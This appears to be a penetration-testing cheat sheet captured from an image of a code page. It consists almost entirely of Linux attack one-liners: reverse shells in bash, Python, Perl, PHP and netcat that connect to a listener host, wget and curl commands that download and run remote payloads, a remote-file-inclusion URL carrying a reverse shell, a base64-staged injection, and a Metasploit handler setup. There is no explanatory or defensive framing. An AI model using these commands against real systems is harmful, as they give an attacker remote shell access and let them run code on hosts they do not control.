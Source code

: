     **#LINUXP**
    #!/bin/bash
    bash -c 'bash -i >&/dev/tcp/$LHOST/8080 0>&1'
    wget http://$LHOST/shell -O /tmp/shell && chmod 777 /tmp/shell && /tmp/shell
    wget${IFS}http://$LHOST/mini.php
    curl $LHOST/bashling|bash
    curl -s http://$RHOST/cmd.php --data "cmd=wget http://$LHOST/shell -O /tmp/shell" 
    nc${IFS}-e${IFS}/bin/bash${IFS}%s${IFS}%s$LHOST${IFS}9999
    which ls find python python3 perl bash sh dash xterm php jsp java asp socat\ nc ncat netcat nc.traditional nc.openbsd ruby wget curl fetch lua gawk awk tclsh
    #RFI
    http://$RHOST/Readme&cmd=bash -i >& /dev/tcp/$LHOST/443 0>&1
    http%3A%2F%2F172.16.1.1%2FReadme%26cmd%3Dbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.16.1.1%2F443%200%3E%261
    curl http://$RHOST/action=/inc/config.php?basePath=http://$LHOST/diablo%00 --data "cmd=echo $(base64 -w0 /home/kali/Admin/redacted/shellz)>/tmp/shell;base64 -d /tmp/shell >/tmp/shell2;base64 -d /tmp/shell2 > /tmp/shell3;bash /tmp/shell3"
    #MSF
    sudo msfconsole -q -x "use exploit/multi/handler;\
    > set PAYLOAD linux/x86/meterpreter/reverse_tcp;\
    > set LHOST tun0;\
    > set LPORT 443;\
    > run"
    ```
    
    ## Esc. 🦅
    
    ```bash
    script -qc /bin/bash /dev/null
    #Upgrade shell
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    SHELL=/bin/bash script -q /dev/null
    Ctrl-Z
    stty raw - echo ;fg
    fg
    reset
    xterm
    export TERM=xterm
    export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    ```
    
    ```bash
    #!/bin/bash
    bash -c 'bash -i >& /dev/tcp/192.168.49.146/22 0>&1'
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.146",65000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
    perl -e 'use Socket;$i="192.168.49.146";$p=8082;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    php -r '$sock=fsockopen("192.168.49.146",25);exec("/bin/sh -i <&3 >&3 2>&3");'
    ```
    